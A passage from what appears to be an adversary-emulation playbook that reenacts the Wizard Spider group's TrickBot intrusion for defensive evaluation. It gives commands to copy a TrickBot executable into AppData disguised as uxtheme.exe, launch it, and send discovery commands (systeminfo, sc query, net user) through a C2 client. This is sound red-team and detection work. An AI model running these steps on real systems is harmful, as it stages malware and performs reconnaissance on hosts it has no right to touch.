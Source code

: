 Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe
```

 Kick off exeuction by starting TrickBotClientExe.exe

```bash
cd %AppData%
uxtheme.exe
```

Switch back to your C2 terminal window.

Take a screenshot of the new Trickbot session, and paste in Slack.

### :microscope: Cited Intelligence

* <https://attack.mitre.org/groups/G0102/>

* <https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/>

## Step 5 - TrickBot Discovery

:microphone: `Voice Track:`

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

### ☣️ Procedures

From your C2 server tab, execute the following commands.

```bash
# TrickBot gathers the OS version, machine name, CPU type, amount of RAM available, and UEFI/BIOS firmware information from the victim’s machine.[1][2][7][12]

./evalsC2client.py --set-task TrickBot-Implant "systeminfo > discovery.txt"
```

```bash
# TrickBot collects a list of install programs and services on the system’s machine.[1]

./evalsC2client.py --set-task TrickBot-Implant "sc query >> discovery.txt"
```

```bash
# TrickBot collects the users of the system.[1][6]

./evalsC2client.py --set-task TrickBot-Implant "net user >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant  "net user /domain >> discovery.txt"
```

